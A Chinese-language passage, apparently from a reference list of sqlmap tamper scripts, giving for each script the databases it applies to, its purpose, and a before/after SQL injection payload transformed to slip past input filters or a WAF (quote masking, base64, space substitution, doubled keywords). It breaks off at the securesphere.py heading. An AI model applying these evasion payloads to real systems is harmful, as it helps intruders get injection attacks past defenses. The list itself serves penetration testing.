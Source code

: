 

### 0x02 常用tamper脚本

#### **apostrophemask.py**

适用数据库：ALL  
作用：将引号替换为utf-8，用于过滤单引号  
使用脚本前：`tamper("1 AND '1'='1")`  
使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

#### **base64encode.py**

适用数据库：ALL  
作用：替换为base64编码  
使用脚本前：`tamper("1' AND SLEEP(5)#")`  
使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

#### **multiplespaces.py**

适用数据库：ALL  
作用：围绕sql关键字添加多个空格  
使用脚本前：`tamper('1 UNION SELECT foobar')`  
使用脚本后：`1 UNION SELECT foobar`

#### **space2plus.py**

适用数据库：ALL  
作用：用加号替换空格  
使用脚本前：`tamper('SELECT id FROM users')`  
使用脚本后：`SELECT+id+FROM+users`

#### **nonrecursivereplacement.py**

适用数据库：ALL  
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）  
使用脚本前：`tamper('1 UNION SELECT 2--')`  
使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`

#### **space2randomblank.py**

适用数据库：ALL  
作用：将空格替换为其他有效字符  
使用脚本前：`tamper('SELECT id FROM users')`  
使用脚本后：`SELECT%0Did%0DFROM%0Ausers`

#### **unionalltounion.py**

适用数据库：ALL  
作用：将`union allselect` 替换为`unionselect`  
使用脚本前：`tamper('-1 UNION ALL SELECT')`  
使用脚本后：`-1 UNION SELECT`

#### **securesphere.py**
